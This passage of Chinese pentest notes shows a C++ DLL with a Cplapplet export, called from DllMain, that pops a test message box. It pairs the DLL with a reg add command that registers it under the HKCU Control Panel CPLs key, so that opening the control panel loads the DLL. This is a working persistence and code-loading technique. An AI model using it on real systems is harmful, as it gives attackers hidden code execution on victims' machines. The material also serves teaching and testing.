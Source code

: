 	编译为dll，这里是弹框测试
```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "inject control panel.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
![image](/assets/Pentest_Note/master/img/680.png)
	
	添加到注册表中，只要运行control命令打开控制面板即可加载dll
	reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\xxx\dll.dll" /f
![image](/assets/Pentest_Note/master/img/681.png)